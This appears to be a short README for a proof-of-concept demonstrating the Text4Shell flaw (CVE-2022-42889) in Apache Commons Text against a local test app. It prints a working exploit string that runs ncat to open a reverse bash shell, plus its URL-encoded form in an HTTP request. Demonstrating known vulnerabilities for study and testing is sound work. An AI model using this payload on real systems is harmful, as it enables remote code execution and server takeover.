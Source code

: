 # CVE-2022-42889 Text4Shell
This vulnerability is found in Apache Commons Text v1.5-1.9 and allows a remote attacker to execute arbitrary code IF user controlled input makes its way directly into a `StringSubstituter` which is fairly rare to find in the wild.

The payload used in this POC is:
`${script:javascript:java.lang.Runtime.getRuntime().exec('ncat -e /bin/bash 0.0.0.0 4444')}`

Which looks like this when part of an HTTP GET request:
`http://localhost:8080/Text4Shell/?search=$%7Bscript:javascript:java.lang.Runtime.getRuntime().exec(%27ncat%20-e%20/bin/bash%2000.0.0.0%204444%27)%7D`

The app was built in Eclipse, a tutorial will be added soon if you want to build, run and test it yourself locally.

# Demo

https://user-images.githubusercontent.com/58807068/198384946-3a8736d9-64c6-4fb9-a2a0-47bf8627ffda.mp4
